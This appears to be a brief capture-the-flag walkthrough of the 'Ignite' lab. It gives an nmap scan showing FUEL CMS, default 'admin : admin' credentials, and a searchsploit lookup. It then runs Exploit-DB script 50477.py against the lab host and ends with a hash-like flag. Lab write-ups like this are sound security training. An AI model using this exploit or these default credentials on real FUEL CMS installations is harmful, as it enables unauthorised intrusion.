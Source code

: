 # Ignite

## `Nmap` scan


```ruby
nmap -sCV 10.10.10.10
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-24 07:35 EDT
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.23.89
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.90 seconds

```


<img width="1917" height="714" alt="image" src="https://github.com/user-attachments/assets/7b7145a5-bc3c-4fc3-bdb1-a841c40e0221" />

<img width="1626" height="391" alt="image" src="https://github.com/user-attachments/assets/6968b901-5ce1-40ce-9963-5e8ec345014c" />

````
admin : admin
````

<img width="1644" height="460" alt="image" src="https://github.com/user-attachments/assets/2cdb03de-cbee-4f11-bbd3-2c04ff1f5d3d" />

```
searchsploit fuel cms
```

<img width="1081" height="273" alt="image" src="https://github.com/user-attachments/assets/824c3cd6-45f9-4a54-b3bf-c1bb97ed7419" />


```
python3 /usr/share/exploitdb/exploits/php/webapps/50477.py -u http://10.10.23.89
```

<img width="960" height="513" alt="image" src="https://github.com/user-attachments/assets/8349fbee-010a-4002-a2cd-121543fe0416" />


```
6470e394cbf6dab6a91682cc8585059b
```
